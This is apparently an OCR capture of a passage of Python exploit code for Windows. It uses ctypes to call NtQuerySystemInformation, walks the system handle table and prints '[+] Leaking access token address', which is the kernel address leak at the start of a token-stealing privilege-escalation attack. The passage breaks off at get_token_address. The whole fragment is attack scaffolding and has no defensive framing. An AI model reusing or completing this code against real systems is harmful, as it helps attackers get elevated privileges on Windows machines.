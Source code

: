 ```python
STATUS_INFO_LENGTH_MISMATCH = 0xC0000004
STATUS_INVALID_HANDLE = 0xC0000008
TOKEN_QUERY = 8
SystemExtendedHandleInformation = 64

NTSTATUS = DWORD
PHANDLE = POINTER(HANDLE)
PVOID = LPVOID = ULONG_PTR = c_void_p

# Function signature helpers.
ntdll.NtQuerySystemInformation.argtypes = [DWORD, PVOID, ULONG, POINTER(ULONG)]
ntdll.NtQuerySystemInformation.restype = NTSTATUS

advapi32.OpenProcessToken.argtypes = [HANDLE, DWORD , POINTER(HANDLE)]
advapi32.OpenProcessToken.restype  = BOOL

# Structures for NtQuerySystemInformation.
class SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX(Structure):
    _fields_ = [
        ("Object", PVOID),
        ("UniqueProcessId", PVOID),
        ("HandleValue", PVOID),
        ("GrantedAccess", ULONG),
        ("CreatorBackTraceIndex", USHORT),
        ("ObjectTypeIndex", USHORT),
        ("HandleAttributes", ULONG),
        ("Reserved", ULONG),
    ]
class SYSTEM_HANDLE_INFORMATION_EX(Structure):
    _fields_ = [
        ("NumberOfHandles", PVOID),
        ("Reserved", PVOID),
        ("Handles", SYSTEM_HANDLE_TABLE_ENTRY_INFO_EX * 1),
    ]

def find_handles(pid, data):
    """
    Parses the output of NtQuerySystemInformation to find handles associated
    with the given PID.
    """
    header = cast(data, POINTER(SYSTEM_HANDLE_INFORMATION_EX))
    nentries = header[0].NumberOfHandles
    print('[+] Leaking access token address')

    handles = []
    data = bytearray(data[16:])

    # Manually unpacking the struct because of issues with ctypes.parse
    while nentries > 0:
        p = data[:40]
        e = struct.unpack('<QQQLHHLL', p)
        nentries -= 1
        data = data[40:]
        hpid = e[1]
        handle = e[2]

        if hpid != pid: continue
        handles.append((e[1], e[0], e[2]))

    return handles

def get_token_address():
    """
```